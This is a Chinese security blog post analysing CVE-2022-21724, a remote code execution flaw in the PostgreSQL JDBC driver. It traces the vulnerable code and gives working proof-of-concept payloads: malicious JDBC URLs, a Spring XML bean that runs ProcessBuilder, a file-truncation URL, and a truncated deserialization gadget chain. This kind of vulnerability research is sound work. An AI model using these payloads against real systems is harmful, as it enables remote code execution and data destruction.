---
title: "PostgreSQL JDBC RCE命令执行"
date: 2026-02-27T13:09:53+08:00
summary: "CVE-2022-21724"
url: "/posts/java之PostgreSQL-JDBC-RCE/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

PostgreSQL JDBC RCE命令执行是22年爆出来的一个漏洞CVE-2022-21724

# 漏洞描述

PostgreSQL JDBC Driver是一个用 Pure Java（Type 4）编写的开源 JDBC 驱动程序，用于 PostgreSQL 本地网络协议中进行通信。

pgjdbc 是 PostgreSQL 官方 JDBC 驱动，在使用当攻击者可以控制 jdbc url 或 properties 时，可能导致安全风险。原因是驱动程序在实例化部分属性对应类时，并未检查其是否实现自期望类或接口，导致恶意用户可以实例化任意类，并进一步达到 RCE。

# 影响版本

• < 42.2.25
• >= 42.3.0，< 42.3.2

# 漏洞代码

在pom.xml中导入对应的PostgreSQL依赖

```xml
<dependency>
    <groupId>org.postgresql</groupId>
    <artifactId>postgresql</artifactId>
    <version>42.3.0</version>
<dependency>
```

## 漏洞点

漏洞点位于 `org.postgresql.util.ObjectFactory#instantiate()` 方法

```java
  public static Object instantiate(String classname, Properties info, boolean tryString,
      @Nullable String stringarg)
      throws ClassNotFoundException, SecurityException, NoSuchMethodException,
          IllegalArgumentException, InstantiationException, IllegalAccessException,
          InvocationTargetException {
    @Nullable Object[] args = {info};
    Constructor<?> ctor = null;
    Class<?> cls = Class.forName(classname);
    try {
      ctor = cls.getConstructor(Properties.class);
    } catch (NoSuchMethodException ignored) {
    }
    if (tryString && ctor == null) {
      try {
        ctor = cls.getConstructor(String.class);
        args = new String[]{stringarg};
      } catch (NoSuchMethodException ignored) {
      }
    }
    if (ctor == null) {
      ctor = cls.getConstructor();
      args = new Object[0];
    }
    return ctor.newInstance(args);
  }
```

此方法接收一个 Class 类名、Properties 对象、一个布尔值、一个 String 类型的参数。会根据传入的Class类名获取到对应的Properties类型的类构造器或者String类型的类构造器，如果前两者都没有就会获取到其无参构造器，最后进行一个实例化的操作

所以满足如下条件的 Class 可以利用：

1. 存在 Properties 构造方法，且构造方法中达到恶意目的；
2. 存在单 String 构造方法，且构造方法中达到恶意目的。
3. 存在无参数构造方法，且构造方法中达到恶意目的。

我们可以寻找到 spring 框架中的如下两个类来进行利用。

```java
org.springframework.context.support.ClassPathXmlApplicationContext
org.springframework.context.support.FileSystemXmlApplicationContext
```

接下来我们回溯如何调用到instantiate方法

## 回溯分析

写个漏洞demo调试吧

还需要额外导入Spring依赖

```xml
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-context-support</artifactId>
    <version>4.1.4.RELEASE</version>
</dependency>
```

然后写一个demo

```java
package PostgreSQLJDBC;

import java.sql.DriverManager;
import java.sql.SQLException;

public class CVE_2022_21724 {
    public static void main(String[] args) throws SQLException {
        String socketFactoryClass = "org.springframework.context.support.ClassPathXmlApplicationContext";
        String socketFactoryArg  = "http:127.0.0.1/poc.xml";
        String dbUrl = "jdbc:postgresql:///?socketFactory="+socketFactoryClass+"&amp;socketFactoryArg="+socketFactoryArg;
        System.out.println(dbUrl);
        DriverManager.getConnection(dbUrl);
    }
}
```

在恶意poc.xml文件下填入以下内容

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="test" class="java.lang.ProcessBuilder">
        <constructor-arg value="calc.exe" />
        <property name="whatever" value="#{test.start()}"/>
    </bean>
</beans>
```

在getConnection处打上断点进行调试，首先是`java.sql.DriverManager#getConnection()`



这里会尝试调用driver的connect方法，这里的driver就是org.postgresql.Driver

```java
  @Override
  public @Nullable Connection connect(String url, @Nullable Properties info) throws SQLException {
    if (url == null) {
      throw new SQLException("url is null");
    }
    // get defaults
    Properties defaults;

    if (!url.startsWith("jdbc:postgresql:")) {
      return null;
    }
    try {
      defaults = getDefaultProperties();
    } catch (IOException ioe) {
      throw new PSQLException(GT.tr("Error loading default settings from driverconfig.properties"),
          PSQLState.UNEXPECTED_ERROR, ioe);
    }

    // override defaults with provided properties
    Properties props = new Properties(defaults);
    if (info != null) {
      Set<String> e = info.stringPropertyNames();
      for (String propName : e) {
        String propValue = info.getProperty(propName);
        if (propValue == null) {
          throw new PSQLException(
              GT.tr("Properties for the driver contains a non-string value for the key ")
                  + propName,
              PSQLState.UNEXPECTED_ERROR);
        }
        props.setProperty(propName, propValue);
      }
    }
    // parse URL and add more properties
    if ((props = parseURL(url, props)) == null) {
      return null;
    }
    try {
      // Setup java.util.logging.Logger using connection properties.
      setupLoggerFromProperties(props);

      LOGGER.log(Level.FINE, "Connecting with URL: {0}", url);

      // Enforce login timeout, if specified, by running the connection
      // attempt in a separate thread. If we hit the timeout without the
      // connection completing, we abandon the connection attempt in
      // the calling thread, but the separate thread will keep trying.
      // Eventually, the separate thread will either fail or complete
      // the connection; at that point we clean up the connection if
      // we managed to establish one after all. See ConnectThread for
      // more details.
      long timeout = timeout(props);
      if (timeout <= 0) {
        return makeConnection(url, props);
      }

      ConnectThread ct = new ConnectThread(url, props);
      Thread thread = new Thread(ct, "PostgreSQL JDBC driver connection thread");
      thread.setDaemon(true); // Don't prevent the VM from shutting down
      thread.start();
      return ct.getResult(timeout);
    } catch (PSQLException ex1) {
      LOGGER.log(Level.FINE, "Connection error: ", ex1);
      // re-throw the exception, otherwise it will be caught next, and a
      // org.postgresql.unusual error will be returned instead.
      throw ex1;
    } catch (java.security.AccessControlException ace) {
      throw new PSQLException(
          GT.tr(
              "Your security policy has prevented the connection from being attempted.  You probably need to grant the connect java.net.SocketPermission to the database server host and port that you wish to connect to."),
          PSQLState.UNEXPECTED_ERROR, ace);
    } catch (Exception ex2) {
      LOGGER.log(Level.FINE, "Unexpected connection error: ", ex2);
      throw new PSQLException(
          GT.tr(
              "Something unusual has occurred to cause the driver to fail. Please report this exception."),
          PSQLState.UNEXPECTED_ERROR, ex2);
    }
  }
```

检查传入的url是否是`jdbc://postgresql`开头，随后使用 `getDefaultProperties` 方法收集配置文件中的相关属性键值对，并调用parseURL解析传入的url

跟进parseURL看看



先是通过`?`来将url分为urlServer服务器地址和urlArgs参数两部分



判断是否是`//`开头，是的话就截取`//`后面的内容。接下来查找是否有`/`，并将`/`后面的内容作为连接数据库名。因为常规的JDBC URL的格式是`host:port/dbname`

对`/`前面的内容按逗号分隔，可以适用于多个主机操作，并对各个主机逐个解析host和port

所以例如`jdbc:postgresql:*//aaa.com,127.0.0.1:2234,/?socketFactory=*`这样的写法也是可以的，甚至可以在利用的时候进行`jdbc:postgresql:*//,,,  ,,,, ,, , ,,/?socketFactory=*`或者`jdbc:postgresql:*///?socketFactory=*`变形利用



当然，如果啥都没有的话，默认是`localhost:5432`



最终把多主机、多端口以逗号拼接存入属性，供后续建立连接时使用。



接下来是参数（ Args）的解析，则是使用 `&` 符切割，以 `=` 来切割键值对，并将值 URLdecode 之后存放在整体 Properties 对象中。最后返回urlProps对象

然后就是连接数据库的操作了，跟进到makeConnection方法中



通过实例化一个PgConnection对象来进行连接



前面是一些初始化赋值操作，真正的连接是在org.postgresql.core.ConnectionFactory#openConnection方法中



进行了一个协议版本的判断，目前只支持了 3 版本，实例化了一个工厂类，随后调用 `org.postgresql.core.v3.ConnectionFactoryImpl.openConnectionImpl` 方法建立连接



## 漏洞利用点

###  socketFactory & socketFactoryArg

调用了 `org.postgresql.core.SocketFactoryFactory.getSocketFactory` 方法，用来获取进行链接的 Socket 工厂类。此方法就是漏洞利用点的第一个方式了



可以看到分别从info中获取socketFactory和socketFactoryArg属性值，并调用`ObjectFactory.instantiate` 方法进行实例化，其中socketFactoryClassName就是我们之前讲过的类名ClassName，socketFactoryArg就是传入的参数值stringarg

所以此处的漏洞利用方式为

```java
jdbc:postgresql:///?socketFactory=恶意类名&socketFactoryArg=单String恶意类参数
或
jdbc:postgresql:///?socketFactory=恶意类名&恶意属性名=恶意属性值
```

###  sslfactory & sslfactoryarg

在getSocketFactory中可以看到，如果没有指定socketFactory 的话就会返回默认的socketFactory工厂类，回到上一步，会对所有获取到的host进行尝试连接，会调用到tryConnect



该方法会创建连接，并判断连接的目标是否支持SSL



```java
  private PGStream enableSSL(PGStream pgStream, SslMode sslMode, Properties info,
      int connectTimeout)
      throws IOException, PSQLException {
    if (sslMode == SslMode.DISABLE) {
      return pgStream;
    }
    if (sslMode == SslMode.ALLOW) {
      // Allow ==> start with plaintext, use encryption if required by server
      return pgStream;
    }

    LOGGER.log(Level.FINEST, " FE=> SSLRequest");

    // Send SSL request packet
    pgStream.sendInteger4(8);
    pgStream.sendInteger2(1234);
    pgStream.sendInteger2(5679);
    pgStream.flush();

    // Now get the response from the backend, one of N, E, S.
    int beresp = pgStream.receiveChar();
    switch (beresp) {
      case 'E':
        LOGGER.log(Level.FINEST, " <=BE SSLError");

        // Server doesn't even know about the SSL handshake protocol
        if (sslMode.requireEncryption()) {
          throw new PSQLException(GT.tr("The server does not support SSL."),
              PSQLState.CONNECTION_REJECTED);
        }

        // We have to reconnect to continue.
        return new PGStream(pgStream, connectTimeout);

      case 'N':
        LOGGER.log(Level.FINEST, " <=BE SSLRefused");

        // Server does not support ssl
        if (sslMode.requireEncryption()) {
          throw new PSQLException(GT.tr("The server does not support SSL."),
              PSQLState.CONNECTION_REJECTED);
        }

        return pgStream;

      case 'S':
        LOGGER.log(Level.FINEST, " <=BE SSLOk");

        // Server supports ssl
        org.postgresql.ssl.MakeSSL.convert(pgStream, info);
        return pgStream;

      default:
        throw new PSQLException(GT.tr("An error occurred while setting up the SSL connection."),
            PSQLState.PROTOCOL_VIOLATION);
    }
  }
```

与目标服务器进行 SSL 协议数据交互，并判断服务器返回值为字符 `S` 也就是 byte 83，则代表服务器支持 SSL。进入convert方法



很熟悉的代码，跟进看看



哎，和之前分析的很像，只不过这里的参数变成了sslfactory和sslfactoryarg，也一样会调用ObjectFactory.instantiate进行实例化操作

所以此处的触发方式为：

```java
jdbc:postgresql:///?sslfactory=恶意类名&sslfactoryarg=单String恶意类参数
或
jdbc:postgresql:///?sslfactory=恶意类名&恶意属性名=恶意属性值
```

但这种方式就有了前置条件：能联通一个真的支持 SSL 的 Postgresql 数据库，或连接一个能返回 `S` 的监听端口（或恶意服务器）。

如果要搭建支持 SSL 的 postgre 数据库，可以参考

```java
mkdir postgre
cd postgre
openssl req -new -text -passout pass:abcd -subj /CN=localhost -out server.req
openssl rsa -in privkey.pem -passin pass:abcd -out server.key
openssl req -x509 -in server.req -text -key server.key -out server.crt
docker run -d --name postgressl -v "$PWD/server.crt:/var/lib/postgresql/server.crt:ro" -v "$PWD/server.key:/var/lib/postgresql/server.key:ro"  postgres:11-alpine -c ssl=on -c ssl_cert_file=/var/lib/postgresql/server.crt -c ssl_key_file=/var/lib/postgresql/server.key
```

然后我们看看上面提到的执行类Sink class能造成什么样的结果

## Sink Class

看到org.springframework.context.support.ClassPathXmlApplicationContext#ClassPathXmlApplicationContext(java.lang.String)构造方法

```java
	public ClassPathXmlApplicationContext(String configLocation) throws BeansException {
		this(new String[] {configLocation}, true, null);
	}
```

继续跟进

```java
	public ClassPathXmlApplicationContext(String[] configLocations, boolean refresh, ApplicationContext parent)
			throws BeansException {

		super(parent);
		setConfigLocations(configLocations);
		if (refresh) {
			refresh();
		}
	}
```

这里会调用其父类`AbstractXmlApplicationContext#refresh`方法以给定的恶意XML文件中加载定义



这里就会对xml文件的内容进行一个解析执行了

# 利用方式

## ClassPathXmlApplicationContext&FileSystemXmlApplicationContext 

上面也讲过了，ClassPathXmlApplicationContext/FileSystemXmlApplicationContext 通过远程执行 xml 来 RCE，但利用条件也显而易见

- 需要额外导入spring-context-support依赖（或者其他自行封装包例如 weblogic 的 `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext` 等）
- 另一个是需要机器出网

在poc.xml 所在目录下启动http服务并运行我们的代码



接下来分享师傅文章中其他可以用到的sink点

**[2] FileOutputStream/InputStream**

FileOutputStream 清空文件，实战中可以配合业务逻辑清空特定文件，达到 RCE 的目的。

```
jdbc:postgresql:///?socketFactory=java.io.FileOutputStream&socketFactoryArg=/var/www/app/install.lck
```

反过来 FileInputStream 可以探测文件是否存在，不过需要看到报错信息来判断。

**[3] JLabel**

CS RCE 的套娃，需要依赖 batik-swing（对 JDK 环境及版本也有要求）。

```
jdbc:postgresql:///?socketFactory=javax.swing.JLabel&socketFactoryArg=<html><object classid="org.apache.batik.swing.JSVGCanvas"><param name="URI" value="http://localhost:8080/1.xml"></object></html>
```

**[4] MiniAdmin**

Mysql 的套娃。需要依赖 mysql-connector-java（这个类高版本才有）。

```
jdbc:postgresql:///?socketFactory=com.mysql.cj.jdbc.admin.MiniAdmin&socketFactoryArg=jdbc:mysql://127.0.0.1:3306/test?...
```

**[5] IniEnvironment**

在 ActiveMQ 不出网利用中出现的类，可以配合 BCEL 加载以及反序列化，需要依赖 activemq-shiro 以及对应依赖。

根据 Anchor 师傅在先知上发现的文章。有两条不出网的利用链，第一条是 BasicDataSource 配合 BCEL 类加载，需要的依赖和限制有点多，这里就不列举了。

第二条是 `ActiveMQObjectMessage#getObject` 触发的反序列化

```
jdbc:postgresql:///?socketFactory=org.apache.activemq.shiro.env.IniEnvironment&socketFactoryArg=%5Bmain%5D%0Abs%20%3D%20org.apache.activemq.util.ByteSequence%0Amessage%20%3D%20org.apache.activemq.command.ActiveMQObjectMessage%0Abs.data%20%3D%20rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAK29yZy5hcGFjaGUuY29tbW9ucy5iZWFudXRpbHMuQmVhbkNvbXBhcmF0b3LjoYjqcyKkSAIAAkwACmNvbXBhcmF0b3JxAH4AAUwACHByb3BlcnR5dAASTGphdmEvbGFuZy9TdHJpbmc7eHBzcgA%2Fb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmNvbXBhcmF0b3JzLkNvbXBhcmFibGVDb21wYXJhdG9y%2B%2FSZJbhusTcCAAB4cHQAEG91dHB1dFByb3BlcnRpZXN3BAAAAANzcgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVzSW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVjb2Rlc3QAA1tbQlsABl9jbGFzc3QAE